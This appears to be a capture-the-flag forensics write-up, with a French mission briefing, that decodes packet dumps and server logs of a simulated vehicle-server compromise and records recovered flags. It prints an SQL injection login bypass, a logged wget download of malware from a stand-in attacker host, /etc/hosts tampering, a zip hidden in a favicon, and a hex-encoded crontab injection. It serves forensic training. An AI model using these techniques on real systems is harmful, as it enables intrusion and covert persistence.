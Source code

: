 # Mission Briefing
Opérateur 10 à Cyberphantom. Prenez message :

Nous avons perdu la communication avec un véhicule alors que nous sommes en pleine opération.
Nous avons une suspicion de hacking. J'ai besoin de votre diagnostic afin de rétablir la communication avec le véhicule dans les plus brefs délais.

Vous trouverez ici les derniers logs de communication entre la station radio et le véhicule. Ces informations devraient vous être utiles.

Terminé.

# Info get
3 IPs
10.10.0.2
10.10.0.254
163.172.68.42 => hypotetic server ip

## Details and Findings
We see that a lot of command is used on the Tserv
We can see that someone write a hash on the /tmp/secret file 
```bash
0000   00 04 00 01 00 06 02 42 0a 0a 00 fe 00 00 08 00   .......B........
0010   45 00 00 84 ec c4 40 00 40 06 5a d1 0a 0a 00 fe   E.....@.@.Z.....
0020   a3 ac 44 2a 9a 30 00 17 80 60 6c 5a 89 9a 4f 57   ..D*.0...`lZ..OW
0030   80 18 01 e9 f3 54 00 00 01 01 08 0a b3 12 b6 84   .....T..........
0040   b3 39 10 33 65 63 68 6f 20 55 6b 31 37 4e 32 46   .9.3echo Uk17N2F
0050   6d 5a 6a 4a 68 4e 6a 41 33 59 6a 45 7a 5a 6a 63   mZjJhNjA3YjEzZjc
0060   7a 59 32 49 77 4f 54 4d 32 5a 6a 6b 32 5a 54 59   zY2IwOTM2Zjk2ZTY
0070   33 59 6a 49 78 4d 44 49 77 4e 32 46 6c 4d 44 51   3YjIxMDIwN2FlMDQ
0080   33 4e 58 30 4b 20 3e 20 2f 74 6d 70 2f 73 65 63   3NX0K > /tmp/sec
0090   72 65 74 0a                                       ret.
```

`Uk17N2FmZjJhNjA3YjEzZjczY2IwOTM2Zjk2ZTY3YjIxMDIwN2FlMDQ3NX0K` = `efa3fb1f409aa622dddd7220ad6567580fb68b68`

```bash
0000   00 04 00 01 00 06 02 42 0a 0a 00 fe 00 00 08 00   .......B........
0010   45 00 00 4f ec ab 40 00 40 06 5b 1f 0a 0a 00 fe   E..O..@.@.[.....
0020   a3 ac 44 2a 9a 30 00 17 80 60 6b f2 89 9a 46 b7   ..D*.0...`k...F.
0030   80 18 01 f6 f3 1f 00 00 01 01 08 0a b3 12 41 b3   ..............A.
0040   b3 38 a9 8d 76 6c 52 30 49 51 77 4a 4c 36 30 52   .8..vlR0IQwJL60R
0050   47 51 76 41 38 6e 65 32 6d 6f 70 58 5a 6b 0a      GQvA8ne2mopXZk.
```

`vlR0IQwJL60RGQvA8ne2mopXZk` = ?

```bash
0000   00 00 00 01 00 06 02 42 37 94 7b 6e 00 00 08 00   .......B7.{n....
0010   45 00 00 6c 76 8e 00 00 34 06 1d 20 a3 ac 44 2a   E..lv...4.. ..D*
0020   0a 0a 00 fe 00 17 9a 30 89 9a 4f 57 80 60 6c aa   .......0..OW.`l.
0030   80 18 01 fe 8a 70 00 00 01 01 08 0a b3 39 1e 94   .....p.......9..
0040   b3 12 b6 84 0d 00 3c 7a 59 32 49 77 4f 54 4d 32   ......<zY2IwOTM2
0050   5a 6a 6b 32 5a 54 59 33 59 6a 49 78 4d 44 49 77   Zjk2ZTY3YjIxMDIw
0060   4e 32 46 6c 4d 44 51 33 4e 58 30 4b 20 3e 20 2f   N2FlMDQ3NX0K > /
0070   74 6d 70 2f 73 65 63 72 65 74 0d 0a               tmp/secret..
```

`<zY2IwOTM2Zjk2ZTY3YjIxMDIwN2FlMDQ3NX0K` = ?

```bash
0000   00 00 00 01 00 06 02 42 37 94 7b 6e 00 02 08 00   .......B7.{n....
0010   45 00 04 4a 76 93 00 00 34 06 19 3d a3 ac 44 2a   E..Jv...4..=..D*
0020   0a 0a 00 fe 00 17 9a 30 89 9a 4f eb 80 60 6c da   .......0..O..`l.
0030   80 18 01 fe 9d 85 00 00 01 01 08 0a b3 39 35 81   .............95.
0040   b3 12 cd 84 72 6f 6f 74 3a 78 3a 30 3a 30 3a 72   ....root:x:0:0:r
0050   6f 6f 74 3a 2f 72 6f 6f 74 3a 2f 62 69 6e 2f 62   oot:/root:/bin/b
0060   61 73 68 0d 0a 64 61 65 6d 6f 6e 3a 78 3a 31 3a   ash..daemon:x:1:
0070   31 3a 64 61 65 6d 6f 6e 3a 2f 75 73 72 2f 73 62   1:daemon:/usr/sb
0080   69 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   in:/usr/sbin/nol
0090   6f 67 69 6e 0d 0a 62 69 6e 3a 78 3a 32 3a 32 3a   ogin..bin:x:2:2:
00a0   62 69 6e 3a 2f 62 69 6e 3a 2f 75 73 72 2f 73 62   bin:/bin:/usr/sb
00b0   69 6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 73 79 73 3a   in/nologin..sys:
00c0   78 3a 33 3a 33 3a 73 79 73 3a 2f 64 65 76 3a 2f   x:3:3:sys:/dev:/
00d0   75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69 6e   usr/sbin/nologin
00e0   0d 0a 73 79 6e 63 3a 78 3a 34 3a 36 35 35 33 34   ..sync:x:4:65534
00f0   3a 73 79 6e 63 3a 2f 62 69 6e 3a 2f 62 69 6e 2f   :sync:/bin:/bin/
0100   73 79 6e 63 0d 0a 67 61 6d 65 73 3a 78 3a 35 3a   sync..games:x:5:
0110   36 30 3a 67 61 6d 65 73 3a 2f 75 73 72 2f 67 61   60:games:/usr/ga
0120   6d 65 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   mes:/usr/sbin/no
0130   6c 6f 67 69 6e 0d 0a 6d 61 6e 3a 78 3a 36 3a 31   login..man:x:6:1
0140   32 3a 6d 61 6e 3a 2f 76 61 72 2f 63 61 63 68 65   2:man:/var/cache
0150   2f 6d 61 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e   /man:/usr/sbin/n
0160   6f 6c 6f 67 69 6e 0d 0a 6c 70 3a 78 3a 37 3a 37   ologin..lp:x:7:7
0170   3a 6c 70 3a 2f 76 61 72 2f 73 70 6f 6f 6c 2f 6c   :lp:/var/spool/l
0180   70 64 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   pd:/usr/sbin/nol
0190   6f 67 69 6e 0d 0a 6d 61 69 6c 3a 78 3a 38 3a 38   ogin..mail:x:8:8
01a0   3a 6d 61 69 6c 3a 2f 76 61 72 2f 6d 61 69 6c 3a   :mail:/var/mail:
01b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
01c0   6e 0d 0a 6e 65 77 73 3a 78 3a 39 3a 39 3a 6e 65   n..news:x:9:9:ne
01d0   77 73 3a 2f 76 61 72 2f 73 70 6f 6f 6c 2f 6e 65   ws:/var/spool/ne
01e0   77 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   ws:/usr/sbin/nol
01f0   6f 67 69 6e 0d 0a 75 75 63 70 3a 78 3a 31 30 3a   ogin..uucp:x:10:
0200   31 30 3a 75 75 63 70 3a 2f 76 61 72 2f 73 70 6f   10:uucp:/var/spo
0210   6f 6c 2f 75 75 63 70 3a 2f 75 73 72 2f 73 62 69   ol/uucp:/usr/sbi
0220   6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 70 72 6f 78 79   n/nologin..proxy
0230   3a 78 3a 31 33 3a 31 33 3a 70 72 6f 78 79 3a 2f   :x:13:13:proxy:/
0240   62 69 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   bin:/usr/sbin/no
0250   6c 6f 67 69 6e 0d 0a 77 77 77 2d 64 61 74 61 3a   login..www-data:
0260   78 3a 33 33 3a 33 33 3a 77 77 77 2d 64 61 74 61   x:33:33:www-data
0270   3a 2f 76 61 72 2f 77 77 77 3a 2f 75 73 72 2f 73   :/var/www:/usr/s
0280   62 69 6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 62 61 63   bin/nologin..bac
0290   6b 75 70 3a 78 3a 33 34 3a 33 34 3a 62 61 63 6b   kup:x:34:34:back
02a0   75 70 3a 2f 76 61 72 2f 62 61 63 6b 75 70 73 3a   up:/var/backups:
02b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
02c0   6e 0d 0a 6c 69 73 74 3a 78 3a 33 38 3a 33 38 3a   n..list:x:38:38:
02d0   4d 61 69 6c 69 6e 67 20 4c 69 73 74 20 4d 61 6e   Mailing List Man
02e0   61 67 65 72 3a 2f 76 61 72 2f 6c 69 73 74 3a 2f   ager:/var/list:/
02f0   75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69 6e   usr/sbin/nologin
0300   0d 0a 69 72 63 3a 78 3a 33 39 3a 33 39 3a 69 72   ..irc:x:39:39:ir
0310   63 64 3a 2f 76 61 72 2f 72 75 6e 2f 69 72 63 64   cd:/var/run/ircd
0320   3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67   :/usr/sbin/nolog
0330   69 6e 0d 0a 67 6e 61 74 73 3a 78 3a 34 31 3a 34   in..gnats:x:41:4
0340   31 3a 47 6e 61 74 73 20 42 75 67 2d 52 65 70 6f   1:Gnats Bug-Repo
0350   72 74 69 6e 67 20 53 79 73 74 65 6d 20 28 61 64   rting System (ad
0360   6d 69 6e 29 3a 2f 76 61 72 2f 6c 69 62 2f 67 6e   min):/var/lib/gn
0370   61 74 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   ats:/usr/sbin/no
0380   6c 6f 67 69 6e 0d 0a 6e 6f 62 6f 64 79 3a 78 3a   login..nobody:x:
0390   36 35 35 33 34 3a 36 35 35 33 34 3a 6e 6f 62 6f   65534:65534:nobo
03a0   64 79 3a 2f 6e 6f 6e 65 78 69 73 74 65 6e 74 3a   dy:/nonexistent:
03b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
03c0   6e 0d 0a 5f 61 70 74 3a 78 3a 31 30 30 3a 36 35   n.._apt:x:100:65
03d0   35 33 34 3a 3a 2f 6e 6f 6e 65 78 69 73 74 65 6e   534::/nonexisten
03e0   74 3a 2f 62 69 6e 2f 66 61 6c 73 65 0d 0a 73 79   t:/bin/false..sy
03f0   73 6c 6f 67 3a 78 3a 31 30 31 3a 31 30 32 3a 3a   slog:x:101:102::
0400   2f 68 6f 6d 65 2f 73 79 73 6c 6f 67 3a 2f 62 69   /home/syslog:/bi
0410   6e 2f 66 61 6c 73 65 0d 0a 74 65 6c 6e 65 74 64   n/false..telnetd
0420   3a 78 3a 31 30 32 3a 31 30 33 3a 3a 2f 6e 6f 6e   :x:102:103::/non
0430   65 78 69 73 74 65 6e 74 3a 2f 62 69 6e 2f 66 61   existent:/bin/fa
0440   6c 73 65 0d 0a 72 6f 6f 74 40 65 30 36 61 35 37   lse..root@e06a57
0450   38 35 66 65 32 34 3a 7e 23 20                     85fe24:~# 
```

- found webserv on port 5000 => http://163.172.68.42:5000/login
    The website login can easily be bypass with SQLi in the username input: `admin' -- OR 1=1` 
    Get the logs of the server of the vehicul 

- The hacker get a payload from a host (https://attacker.tld/m4lw3r3) that is been change on the /etc/hosts file before

0. before done anything the hacker hide this hash on the /tmp/.password file
```bash 
Aug 27 12:25:02 COMCYBER_SRV root[250822]: CMD(echo 'efa3fb1f409aa622dddd7220ad6567580fb68b68' > /tmp/.password) [0]
```

1. Change the hosts for target his host
```bash
Aug 27 12:30:03 COMCYBER_SRV root[250822]: CMD(vim /etc/hosts) [0]
```

2. Create a /hack dir on the /tmp/
```bash
Aug 27 12:33:45 COMCYBER_SRV root[250822]: CMD(mkdir hack) [0]
```

3. Download something from this hosts and put it on the /dev/null rep
```bash
Aug 27 12:33:45 COMCYBER_SRV root[250822]: CMD(wget -O /dev/null https://attacker.tld/m4lw3r3) [0]
```

4. Create a zip with the password from step 0 nammed secret.txt and put the message.txt and m4lw3r3 on it 
```bash
Aug 27 12:33:56 COMCYBER_SRV root[250822]: CMD(zip --password $(cat /tmp/.password) secret.zip message.txt m4lw3r3) [0]
```

5. The hacker put the content of the secret.zip into the favicon on the following url /app/static/assets/images/favicon.ico

```bash 
Aug 27 12:38:48 COMCYBER_SRV root[250822]: CMD(cat /app/static/assets/images/favicon.ico ./secret.zip > /app/static/assets/images/favicon.ico) [0]
```
After dpkg this favicon we found the message.txt within : RM{6ba43cb5eeab217270e9692e939da5341a82d2ff}
6. The hacker print an ecrypted string to the crontab 

```bash 
Aug 27 12:38:49 COMCYBER_SRV root[250822]: CMD(echo'2a202a202a202a202a20206563686f2027524d7b393835336561303861623734373265653865663237633631363239396461663530653330626439307d270a' | xxd -r -p | crontab -) [0] 
```
String revert : RM{9853ea08ab7472ee8ef27c616299daf50e30bd90}

# M4lw3r3 Analysis 

While reversing the malware i found this hex code with the instruction You should be able to decrypt this :
```bash
0x39c463428c629ce94df5bc1cb17bec86cb2231203a5270c59 8173f31415ff710696318d9e889e1c891728fed2ed14a291a5b3b76e217d6f3bf24bd484b71f08843b4f3cbb 30a5d480cf4e34339c5e06acc76574cfbea08a4fca2c73388b4e08831f8e037489092346809d7c164ab270a5 e04ae40a327c99590da89025ac48aa5
```
WHAT IS THIS ENCRYPTION ???

